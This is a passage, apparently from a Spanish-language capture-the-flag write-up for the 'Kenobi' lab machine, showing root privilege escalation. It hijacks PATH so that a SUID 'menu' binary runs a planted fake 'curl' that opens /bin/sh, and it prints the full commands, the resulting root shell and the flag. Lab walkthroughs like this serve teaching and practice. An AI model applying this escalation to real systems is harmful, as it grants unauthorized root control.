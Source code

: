 ```bash
/bin/su
/bin/ping6
```
Podemos encontrar un archivo que no parece muy comun, /usr/bin/menu, podemos ver su contenido con el comando strings
```bash
strings /usr/bin/menu
```
Resultado:
```bash
curl -I localhost
uname -r
ifconfig
```
Se muestra que el binario se está ejecutando sin una ruta completa, por ejemplo, sin usar /usr/bin/curl. Vamos a aprovechar esto para manipular nuestra ruta y obtener un shell como root  

Vamos a copiar el shell /bin/sh en un archivo llamado curl, le otorgaremos los permisos correctos y luego lo añadiremos a nuestra variable PATH. De esta manera, al usar el binario y ejecutar curl, usará nuestro archivo manipulado. (estos comandos los ejecutamos desde tmp)
```bash
echo /bin/sh > curl
```
```bash
chmod 777 curl
```
```bash
export PATH=/tmp:$PATH
```
```bash
/usr/bin/menu
```
Finalmente, al utilizar el binario y seleccionar la primera opción, se ejecutará nuestro curl modificado, lo que nos proporcionará acceso a root. En su directorio, encontraremos la última flag
```bash
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# ls
curl  systemd-private-2eb7400619714105bbef8a15ba4d11aa-systemd-timesyncd.service-9uoEKZ
# cd /root
# ls
root.txt
# cat root.txt
177b3cd8562289f37382721c28381f02
```